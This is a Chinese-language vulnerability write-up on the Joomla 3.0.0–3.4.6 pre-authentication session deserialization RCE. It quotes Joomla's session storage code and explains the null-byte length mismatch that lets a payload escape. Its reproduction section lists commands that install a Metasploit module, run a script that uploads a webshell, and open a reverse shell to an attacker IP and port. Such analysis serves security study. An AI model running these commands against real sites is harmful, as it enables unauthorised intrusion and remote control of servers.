



# Joomla 3.0.0 - 3.4.6 RCE漏洞  20191002

## 概述

本质上是一个Session 反序列化导致的rce，由于joomla对于session的特殊处理，导致漏洞触发并不需要登陆。因此成了 pre-auth RCE。

https://github.com/joomla/joomla-cms/releases/tag/3.4.6

## 原理

漏洞文件：

\libraries\joomla\session\storage\database.php 中的write 和read:

php对session的存储是默认放在文件中，当有活动会话产生使用到session的时候，将会在服务端php设置好的路径写一个文件，文件的内容为默认序列化处理器序列化后的数据。在joomla中则改变了php的默认处理规则，将序列化之后的数据存放在数据库中，这步操作对应的处理函数为```\libraries\joomla\session\storage\database.php 中的write : ```

	/**
     * Write session data to the SessionHandler backend.
     *
     * @param   string  $id    The session identifier.
     * @param   string  $data  The session data.
     *
     * @return  boolean  True on success, false otherwise.
     *
     * @since   11.1
     */
    public function write($id, $data)
    {
        // Get the database connection object and verify its connected.
        $db = JFactory::getDbo();

        $data = str_replace(chr(0) . '*' . chr(0), '\0\0\0', $data);

        try
        {
            $query = $db->getQuery(true)
                ->update($db->quoteName('#__session'))
                ->set($db->quoteName('data') . ' = ' . $db->quote($data))
                ->set($db->quoteName('time') . ' = ' . $db->quote((int) time()))
                ->where($db->quoteName('session_id') . ' = ' . $db->quote($id));

            // Try to update the session data in the database table.
            $db->setQuery($query);

            if (!$db->execute())
            {
                return false;
            }
            /* Since $db->execute did not throw an exception, so the query was successful.
            Either the data changed, or the data was identical.
            In either case we are done.
            */
            return true;
        }
        catch (Exception $e)
        {
            return false;
        }
    }


取值的时候使用的操作对应的函数是read：

	/**
     * Read the data for a particular session identifier from the SessionHandler backend.
     *
     * @param   string  $id  The session identifier.
     *
     * @return  string  The session data.
     *
     * @since   11.1
     */
    public function read($id)
    {
        // Get the database connection object and verify its connected.
        $db = JFactory::getDbo();

        try
        {
            // Get the session data from the database table.
            $query = $db->getQuery(true)
                ->select($db->quoteName('data'))
            ->from($db->quoteName('#__session'))
            ->where($db->quoteName('session_id') . ' = ' . $db->quote($id));

            $db->setQuery($query);

            $result = (string) $db->loadResult();

            $result = str_replace('\0\0\0', chr(0) . '*' . chr(0), $result);

            return $result;
        }
        catch (Exception $e)
        {
            return false;
        }
    }

在存入数据库之前，会将传入数据中的 ```chr(0) . '*' . chr(0)``` 替换为 ```\0\0\0```，原因是mysql数据库无法处理NULL字节，而protected修饰符的字段在序列化后是以 ```\x00\x2a\x00``` 开头的。 然后从数据库中取出来的时候，再将字符进行替换还原，防止无法正常反序列化。

php的序列化机制：php在序列化数据的过程中，如果序列化的字段是一个字符串，那么将会保留该字符串的长度，然后将长度写入到序列化之后的数据，反序列化的时候按照长度进行读取。读取完成以分号结束，接着开始下一个。

上面的情况，入库的时候是 ```\0\0\0```，出库时变成 ```chr(0) . '*' . chr(0)```,这样的话入库时生成的序列化数据长度 ```6(\0\0\0)```，取出来的时候将会成为 ```3(N*N)```，（N表示NULL），这样在反序列化的时候，如果按照原先的长度读取，就会导致后续的字符被吃掉。如果我们能控制两个字段的值，第一个用来吃掉第一个字段和第二个字段中间的部分，第二个字段用来构造序列化利用的payload，那么执行将会把第一个字段开头的部分到第二个字段开始的位置当成第一个字段的内容，第二个字段内容逃逸出来被反序列化执行。此行为已从3.0.0版本引入，并影响到Joomla，直到3.4.6。从3.4.7开始，该代码段仍然存在，但会话已通过base64编码并存储在数据库中。

## 复现

kali msf

kali下msf 目录 /usr/share/metasploit-framework/modules/exploits/multi/php

	cp metasploit_rusty_joomla_rce.rb /usr/share/metasploit-framework/modules/exploits/multi/php

	msfconsole-->reload_all-->search joomla



使用报错。

使用py脚本验证。




上传 webshell (默认路径```http://ip/joomla/configuration.php```)

	python3 a.py -e -t ip


反弹shell (测试没成功)

	python3 a.py -e -t target_ip -l local_ip -p port




## 参考资料

[Joomla 3.0.0 - 3.4.6 RCE漏洞分析记录](https://www.cnblogs.com/magic-zero/p/11643916.html)

[Rusty Joomla RCE](https://blog.hacktivesecurity.com/index.php?controller=post&action=view&id_post=41)

[Joomla 3.4.6 RCE 分析](https://xz.aliyun.com/t/6522)

